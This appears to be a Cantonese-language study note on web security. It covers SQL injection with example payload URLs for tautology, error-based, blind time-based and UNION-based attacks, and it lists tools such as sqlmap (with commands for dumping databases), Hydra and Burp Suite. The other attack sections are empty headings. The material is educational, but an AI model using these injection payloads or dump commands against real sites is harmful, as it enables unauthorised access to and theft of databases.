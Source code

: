 # WEB Security

係Web Security入面,主要就有幾種玩法

##  - SQL injection ##
一個駭客最愛的攻擊方法,原自於給用戶輸入的data field處理不當,而使用戶能直接存取database的漏洞
以一個URL為例:
> 
    http://www.insecure.com/login.php?usr=admin&pass=123
    
係呢一個URL入面,好明顯係為左將usr同pass既資料傳到SQL入面,再send比database以作認證,而當中既SQL語句亦好可能係咁:
   
>SELECT * FROM UserTable WHERE usr='admin' and pass=123;
    
咁既話,如果有人入左奇怪既URL input的話,例如:
> http://www.insecure.com/login.php?usr=admin&pass=123' or 1=1 --

咁樣既話,放入SQL既語句就變左以下:
>SELECT * FROM UserTable WHERE usr='admin' and pass=123' or 1=1 --;

係呢個情況之下,最終語句就會變左:
>SELECT * FROM UserTable WHERE True;

亦即使話,如果呢個係一個login system的話,咁呢個人兄唔洗username同password就可能進入你既系統

以上為簡單的proof of concept

SQL 分以下三大類:

 - Error Base SQL injection

基本SQL injection,不解釋

例子:
>http://abc.com?id=1'<--使URL報錯,從而得知SQL架構並控制
>http://abc.com?id=1' and 1=2-- <--破壞where條件,使其false
>http://abc.com?id=1' or 1=1-- <--破壞where條件,使其true

 - Blind Sql Injection

現時只有傻仔admin先會容許自己網站報錯比人睇,所以一般都會使用blind SQL Injection泥brute force整個database

例子:
> http://newspaper.com/items.php?id=2 and 1=2 <-- Content-base
> http://newspaper.com/items.php?id=2' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ; <-- timebase

 - UNION Base SQL injection

簡而言之,就係爆庫

例子如下:
> http://cba.com?id=1' and 1=2 UNION all select 1,2 <--測試columns數量
> 
> http://cba.com?id=1' and 1=2 UNION all select 1,database() <--找出database
> 
> http://cba.com?id=1' and 1=2 UNION all select 1,table_name from INFORMATION_SCHEMA.tables <--找出table

----------

##  - LDAP injection ##


----------

##  - XSS injection ##
 

----------

##  - Directory traversal ##
 

----------

##  - File Inclusion ##
 

----------

##  - Cookie posioning ##
 

----------

##  - Command Injection ##


----------


## 實用工具如下:

 1. cURL
簡單來說,就是以command line作為browser,再連接到人家的WEB server,用這個方法,不單止能制作小爬蟲,最重要的是,你可以隨意改動當中packet的資料,不論是header, data, cookies,所有value都可以隨便改動
而且,這個工具十分common,幾乎在所有的Linux distribution都已經build-in左,因此係所有工具都沒有安裝時,也可以直接使用
使用方法:
> 
    curl [options...] [url]
    normal using (google) : curl google.com
    Post method with data : curl -X POST google.com -d "{data field}:{data value}" 
    Bring Cookie : curl google.com -b "{cookies field}:{cookies value}"
    Bring Header : curl google.com -H "{Header field}:{Header value}"

 
 2. Burp Suite
 一個功能強大的web attack tool,基本上就係一隻由你控制既proxy,之要你將你隻bowser既proxy set去你個burp suite,你就可以隨意view入面既data,甚至可以隨意改傳輸中既data(當然啦,最強大既係,呢舊野唔只可以係你個bowser咁做,仲可以係人地既bowser咁做)
 
 3. SQLMap
 一個十分強大既自動化SQL injection tool,佢可以直接經由URL,直接測試此網頁能否進行SQL injection(當然..,前提係個URL做緊get request啦),亦都可以經由packet入面既data進行post request attack,成功後更可自動爆庫(這對於任何想要用blind sql injection既同志都係好消息呢)
 使用方法:
> 
    normal using (somesite) : sqlmap -u somesite.com?id=5
    using with packet text file : sqlmap -r packet.txt
    got all the database (if injectable): sqlmap -u somesite.com?id=5 --dbs
    got all the table (if injectable): sqlmap -u somesite.com?id=5 -D {DATABASE} --tables
    got all the columns (if injectable): sqlmap -u somesite.com?id=5 -D {DATABASE} -T {TABLE} --columns
    got all the data!!(if injectable): sqlmap -u somesite.com?id=5 -D {DATABASE} -T {TABLE} -C {columns1},{column2} --dump

 4. Dirb
 一個非常方便的directory traversal tools,而原理就十分簡單...就係buffer force attack,因此,佢同下面既hydra一樣,攻擊既強度,取決於條list既厚度
 
 5. Hydra
 一個出哂名既online password cracker, 簡單泥講,就係crack password十分強大(當然,呢個工具既強度取決於你本password dictionary既厚度),一般係Kali Linux都會build-in
 
 6. Nikto
 一個幾出名既Opensource web vulerbility scanner, 佢會幫手搵哂成個網站既漏洞,基本上就係一個純CLI既scanner,一般kali Linux都會build-in
 
 7. OWASP ZAP
 一個由OWASP整出泥既輕量web vulnerbility scanner,入面build-in一個web spider,同時有個還可以(其實唔太準)既vulnerbility scanner,有時輕輕一掃都可能會出到d有用既野,而且附帶GUI令你睇得更輕鬆,一般Kali Linux都會build-in
 
 9. OpenVAS
 係Nessus變成收錢版本之後,最強既"Opensource" web vulnerbility scanner就變左做係佢啦
 佢可以自動化咁睇哂成個網站有冇問題,而且有埋report list out所有野,很不錯的
 
9. WireShark 
一個packet  Sniffer,可以睇當中傳輸的packet,雖然唔係主力用係WEB,不過有時都會派上用場

10. Python
神器不解釋(最強萬用刀,加上pwn呢個神器可以遇神殺神,遇佛殺佛)

11. Google Chrome (Development console)
用泥view source十分好用,而且可以直接改當中既cookies,同埋data transfer既情況,可說是神器中的神器
